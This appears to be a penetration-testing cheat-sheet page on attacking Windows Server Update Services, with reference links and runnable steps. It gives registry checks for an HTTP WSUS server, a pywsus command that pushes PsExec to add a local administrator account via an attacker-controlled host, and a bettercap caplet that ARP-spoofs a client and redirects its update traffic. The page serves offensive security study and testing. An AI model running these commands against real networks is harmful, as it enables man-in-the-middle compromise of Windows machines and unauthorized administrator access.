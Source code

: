 ```yaml
---
description: Windows Server Update Services
---
```


# WSUS

* [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus)




## HTTP MitM

* [https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)
* [https://github.com/GoSecure/pywsus](https://github.com/GoSecure/pywsus)
* [https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
* [https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks](https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks)

Check:

```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
      UseWUServer    REG_DWORD    0x1

PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
      WUServer    REG_SZ    http://wsus.megacorp.local:8530
```

Exploit:

```
$ python3 pywsus.py --host $ATTACKER_IP --port 8530 --executable /home/snovvcrash/www/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
$ sudo ./bettercap --iface $INTERFACE --caplet wsus.cap
```

{% code title="wsus.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Re-route traffic aimed at the WSUS server
set any.proxy.iface $INTERFACE
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_SERVER_IP
set any.proxy.src_port 8530
set any.proxy.dst_address $ATTACKER_IP
set any.proxy.dst_port 8530

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}




## Local Proxy (LPE)

- [https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)




## WSUS + LDAPS NTLM Relay

- [https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/](https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/)




## Tools



### SharpWSUS

- [https://labs.nettitude.com/blog/introducing-sharpwsus/](https://labs.nettitude.com/blog/introducing-sharpwsus/)
- [https://github.com/nettitude/SharpWSUS](https://github.com/nettitude/SharpWSUS)
